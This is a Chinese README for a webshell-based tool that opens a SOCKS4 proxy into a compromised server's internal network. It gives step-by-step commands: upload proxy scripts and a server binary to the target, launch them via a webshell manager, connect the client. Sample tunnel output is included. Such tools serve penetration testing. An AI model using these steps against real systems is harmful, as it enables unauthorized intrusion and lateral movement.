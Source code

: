# 毒刺(pystinger_for_darkshadow)
毒刺(pystinger_for_darkshadow)是一个通过webshell实现**内网SOCK4代理出网**.工具主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.
如需使用端口转发功能请使用pystinger原版
# 使用方法

## SOCK4代理
* proxy.php上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,菜刀(蚁剑)执行```cmd -c D:/test/stinger_server.exe```启动服务端(不要直接运行exe文件,会导致tcp断连)
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000
2019-12-08 21:53:10,207 - INFO - 468 - Local listen check pass.
2019-12-08 21:53:10,207 - INFO - 469 - Socks4a on 0.0.0.0:60000
2019-12-08 21:53:10,217 - INFO - 478 - WEBSHELL check pass.
2019-12-08 21:53:10,218 - INFO - 479 - http://192.168.3.11:8080/proxy.jsp
2019-12-08 21:53:10,226 - INFO - 490 - REMOTE_SERVER check pass.
2019-12-08 21:53:10,226 - INFO - 491 - --- Sever Config ---
2019-12-08 21:53:10,226 - INFO - 493 - client_address_list => []
2019-12-08 21:53:10,226 - INFO - 493 - SERVER_LISTEN => 127.0.0.1:60010
2019-12-08 21:53:10,227 - INFO - 493 - READ_BUFF_SIZE => 51200
2019-12-08 21:53:10,227 - INFO - 493 - LOG_LEVEL => INFO
2019-12-08 21:53:10,227 - INFO - 506 - SLEEP_TIME : 0.01
2019-12-08 21:53:10,227 - WARNING - 90 - LoopThread start
2019-12-08 21:53:10,229 - WARNING - 370 - socks4a server start on 0.0.0.0:60000
2019-12-08 21:53:10,232 - WARNING - 377 - Socks4a ready to accept

```
* 此时已经在本地60000启动了一个192.168.3.11所在内网的socks4代理
# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)
# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能


